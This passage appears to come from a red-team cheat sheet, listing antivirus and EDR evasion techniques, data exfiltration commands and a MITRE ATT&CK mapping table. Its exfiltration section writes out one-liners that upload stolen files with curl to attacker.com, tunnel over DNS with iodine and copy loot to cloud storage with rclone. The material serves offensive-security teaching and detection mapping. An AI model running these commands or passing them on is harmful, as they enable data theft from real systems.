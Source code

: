 | Goal                              | Technique                                    | Example                |
| --------------------------------- | -------------------------------------------- | ---------------------- |
| **Avoid AV**                      | In-memory execution, obfuscation             | Reflective DLL loading |
| **Evade EDR Hooks**               | Unhook NTDLL                                 | Manual syscalls        |
| **Traffic Camouflage**            | TLS / Domain Fronting                        | HTTPS over CDN         |
| **Fileless Persistence**          | Registry-stored script blobs                 | PowerShell + WMI       |
| **Living-off-the-Land (LOLBins)** | Abuse legit binaries (`rundll32`, `msbuild`) | “No binaries dropped”  |

***

### XI. ⚙️ Exfiltration & Impact

#### 🧠 1. Data Exfil via HTTP

```bash
curl -F "file=@loot.zip" http://attacker.com/upload
```

#### ⚙️ 2. DNS Tunneling

```bash
iodine -f 10.0.0.1 attacker.com
```

#### 💣 3. Cloud Storage Exfil

```bash
rclone copy /loot gdrive:staging --config /tmp/rclone.conf
```

***

### XII. ⚙️ Reporting & Detection Mapping

| Category             | Example                  | MITRE ATT\&CK ID |
| -------------------- | ------------------------ | ---------------- |
| Initial Access       | Spearphishing Attachment | T1566.001        |
| Execution            | PowerShell               | T1059.001        |
| Persistence          | Registry Run Keys        | T1060            |
| Privilege Escalation | Token Impersonation      | T1134            |
| Defense Evasion      | Obfuscated Files         | T1027            |
| Lateral Movement     | WMI Exec                 | T1047            |
| Exfiltration         | Web Services             | T1567            |
| C2                   | Encrypted Channel        | T1071.001        |

***

